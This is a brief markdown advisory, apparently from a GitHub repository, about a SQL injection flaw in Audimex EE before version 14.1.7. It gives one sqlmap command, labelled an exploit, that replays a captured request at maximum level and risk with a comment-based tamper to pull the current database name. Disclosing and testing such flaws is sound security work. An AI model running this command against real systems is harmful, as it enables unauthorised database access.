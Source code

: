 # Audimex EE

## Versions affected: < 14.1.7

**SQLMap exploit:** sqlmap -r sqli1.txt --level 5 --risk 3 --tamper=space2comment --batch --current-db
![](screenshot.png)